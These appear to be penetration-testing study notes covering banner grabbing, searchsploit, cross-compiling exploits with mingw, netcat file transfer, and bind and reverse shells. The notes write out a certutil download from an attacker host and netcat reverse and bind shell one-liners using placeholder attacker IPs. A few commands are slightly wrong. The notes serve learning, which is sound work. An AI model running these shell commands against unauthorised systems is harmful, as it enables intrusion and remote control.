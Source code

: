 ## Banner Grabbing
- Identify the services running on specific port as well as the service version
- Can be performed with:
	- #tools/multi/nmap 
	- #tools/utility/nc 

## Searchsploit
- `searchsploit <search terms>`
- Case sensitive search: `-c`
- Copy exploit to current directory
	- `searchsploit -m <id>`
- Search only in title: `-t`
- Exact search: `-e`
- Get the online link to exploit: `-w`
- `searchsploit <type> <platform> <protocol> <service>`
	- e.g. `searchsploit remote windows smb`

## Fixing Exploits
- Update any hardcoded IP addresses or paths
- Look for any other errors

## Cross-compiling Exploits
- Process of compiling code for a platform other than the one performing the complilation
- `sudo apt install mingw-x64`
- Sometimes compilation info is present in the document itself, else you need to figure it out
- `i686-w64-mingw32-gcc file.c -o exploit // 64 bit executable`
- `i686-w64-mingw32-gcc file.c -o exploit -lws2_32 // 32-bit executable`

## Shells
### #tools/utility/nc 
- Use to read/write data
- Can be used in server/client mode
- Can be used for
	- Banner grabbing
	- Port scanning
	- Transferring files
	- Bind/reverse shells
- Connect with a port
	```
	nc -nv <ip> <port>
	```
 - Add `-u` for UDP port
- Can be found on Kali at `/usr/share/windows-binaries/nc.exe`. So, you can copy it to a target machine. 
	- Start a `python -m http.server 80`
	- Run `certutil -urlcache -f http://<attacker_ip>/nc.exe`
	- Start a listener on attackers IP: `nc -nlvp <port>`
	- Connect from target to attacker: `nc -nv <attackers_ip> <port>`
- Send and receive a file
	- On the target machine:
		```
		nc -nlvp <attackers_ip> <port> > file
		```
	- On the attackers machine:
		```
		nc -nv <target_ip> <port> < file
		```

### Bind Shells
- Attacker connects directly to a listener on the target system, consequently allowing for execution of commands on the target system. (Attacker --> Target)
- Listener can be setup to execute a speciic executable linke cmd.exe or /bin/bash.
- Obtaining a bind shell with #tools/utility/nc 
	- Command on victim:
		```
		nc -nlvp <attacker> <port> -e (cmd.exe | /bin/bash)
		```
	- Command on attacker
		```
		nc -nv <target> <port>
		```

### Reverse Shell
- Type of remote shell where the target connects directly to a listener on the attackers system. (Attacker <-- Target)
- Better because outbound traffic is usually not blocked.
- If the connection is found the attackers IP would be the public IP, so can easily get caught. The attacker's machine should be directly accessible to the target
- Obtaining a reverse shell
	- Command on attacker
		```
		nc -nvlp <port>
		```
	- Command on target
		```
		nc -nv <attackers_ip> <port> -e (/bin/bash | cmd.exe)
		```

## PowerShell Empire
- Pure PowerShell exploitation/post-exploitation framework 
- **Starkiller:** GUI for PS empire